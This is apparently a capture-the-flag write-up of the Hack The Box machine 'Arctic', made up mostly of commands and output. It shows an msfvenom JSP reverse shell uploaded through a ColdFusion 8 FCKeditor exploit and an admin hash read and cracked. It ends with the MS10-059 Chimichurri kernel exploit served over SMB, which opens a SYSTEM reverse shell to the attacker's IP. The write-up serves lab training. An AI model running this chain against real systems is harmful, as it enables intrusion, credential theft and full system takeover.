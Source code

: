 Here we have a web server so if we go to http://10.10.10.11:8500 we can see some folders. If we google that concepts

![[Pasted image 20230713115709.png]]

We can see that we have an Adobe Coldfusion webserver. After checking the folders and files, we see that is Adobe Coldfusion 8. Checking for Coldfusion 8 exploits we find this  **[github repository](https://github.com/nipunsomani/Adobe-ColdFusion-8-File-Upload-Exploit)** which uploads a payload in jsp format through FCKeditor script. First we check our scripts folder to check if we have that script (/CFIDE/scripts/ajax/FCKeditor) and we have it, so let's build a jsp payload with msfvenom

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.5 LPORT=8000 -f raw > rshell.jsp
```

Now we can use the python exploit to upload our reverse shell

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Artic-10.10.10.11]
└─$ python exploit.py 10.10.10.11 8500 ./rshell.jsp
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

Now open a netcat listener on the port that we specified to msfvenom (1234) and go to the url provided by the exploit, where our reverse shell is (http://10.10.10.11:8500/userfiles/file/exploit.jsp)

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Artic-10.10.10.11]
└─$ nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 50003
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

In C:\ColdFusion8\lib\password.properties we can find the admin hash

```bash
C:\ColdFusion8\lib>type password.properties
type password.properties
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

I don't know why but with John The Ripper I couldn't crack the password but I could with the website https://crackstation.net/ I cracked the password which is happyday, so admin credentials are Administrator:happyday. We will use **[Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)** to check for kernel exploits to gain privilege escalation, so we store the systeminfo output in a txt file and execute it

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Resources/Windows-Exploit-Suggester]
└─$ python windows-exploit-suggester.py --database 2023-07-13-mssb.xls --systeminfo.txt ~/Documents/Boxes/Artic-10.10.10.11/systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

We will go for MS10-059 which is called Chimichurri and we could use **[this exploit]( https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri)**. After download the file in the compiled folder called Chimichurri.exe we will create a smb share to transfer the file to the windows system

```bash
peluqqi@htb[/htb]$ sudo impacket-smbserver share -smb2support /smbfolder Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation [*] Config file parsed [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0 [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 [*] Config file parsed [*] Config file parsed [*] Config file parsed
```

And download it in the windows machine. But before we have to open a netcat listener in our attacker machine because the Chimichurri exploit gain privileges through a reverse shell

```bash
WINDOWS
C:\ColdFusion8\runtime\bin>\\10.10.16.5\share\Chimichurri.exe 10.10.16.5 1234
\\10.10.16.5\share\Chimichurri.exe 10.10.16.5 1234
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\ColdFusion8\runtime\bin>

-------------------------------------------------------------------------------

ATTACKER
┌──(venv)─(kali㉿kali)-[~/Documents/Resources/Windows-Exploit-Suggester]
└─$ nc -nvlp 1234              
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 49894
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system
```

And now we are authority\system